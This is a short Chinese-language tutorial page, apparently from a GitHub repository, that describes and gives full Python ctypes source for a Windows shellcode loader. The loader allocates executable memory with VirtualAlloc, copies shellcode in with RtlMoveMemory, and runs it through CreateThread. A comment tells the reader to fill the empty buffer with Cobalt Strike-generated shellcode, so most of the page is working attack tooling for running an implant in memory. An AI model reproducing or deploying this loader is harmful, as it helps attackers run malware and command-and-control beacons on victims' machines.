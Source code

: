 # ShellCode加载器

## 实现思路

要实现所谓的Shellcode加载器, 其实只需以下四个步骤:

- `VirtualAlloc`函数开辟内存空间
- `RtlMoveMemory`函数将Shellcode加载至此内存空间
- `CreateThread`创建线程执行此段内存空间的内容
- `WaitForSingleObject`等待ShellCode执行结束



## 加载代码

```python
import ctypes

#CobaltStrike生成的PythonShellcode代码,注意双引号前有个b
bytesbuf = b""

#bytearray()函数返回一个新字节数组
shellcode= bytearray(bytesbuf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```
